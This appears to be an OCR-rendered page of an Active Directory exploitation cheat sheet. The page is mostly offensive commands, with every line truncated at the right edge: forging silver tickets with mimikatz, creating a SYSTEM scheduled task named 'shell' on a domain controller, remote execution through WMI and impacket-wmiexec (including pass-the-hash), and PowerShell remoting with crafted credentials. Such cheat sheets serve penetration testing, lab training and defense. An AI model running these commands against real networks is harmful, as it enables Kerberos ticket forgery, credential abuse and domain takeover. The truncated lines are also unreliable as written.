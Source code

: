 # Silver ticket for a specific SPN with a compromised se
kerberos::golden /user:Administrator /domain:domain.loca

A list of available SPNs for silver tickets can be found here
Another nice overview for SPNs relevant for offensive is
provided here

Command execution with schtasks
Requires ‘Host’ SPN
To create a task

# Mind the quotes. Use encoded commands if quoting becom
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /

To trigger it

schtasks /RUN /TN "shell" /s dcorp-dc.dollarcorp.moneyco

Command execution with WMI
Requires ‘Host’ and ‘RPCSS’ SPNs

From Windows
Invoke-WmiMethod win32_process -ComputerName dcorp-dc.do

From Linux
# with password
impacket-wmiexec dcorp/student355:password@172.16.4.101
# with hash
impacket-wmiexec dcorp/student355@172.16.4.101 -hashes :

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

12/31

Command execution with PowerShell Remoting
Requires ‘CIFS’ ‘HTTP’ and ‘WSMAN’ SPNs

This one is a bit tricky A combination of the above SPNs
may or may not work also PowerShell may require the
exact FQDN to be provided

# Create credential to run as another user (if needed, n
# Leave out -Credential $Cred in the below commands if n
$SecPassword = ConvertTo-SecureString 'thePassword' -AsP
$Cred = New-Object System.Management.Automation.PSCreden
# Run a command remotely (can be used one-to-many!)
Invoke-Command -Credential $Cred -ComputerName $computer
# Launch a session as another user (prompt for password)
Enter-PsSession -Credential $Cred -ComputerName $compute
# Create a persistent session (will remember variables e
$sess = New-PsSession -Credential $Cred
Invoke-Command -Session $sess -FilePath c:\path\to\file.
Enter-PsSession -Session $sess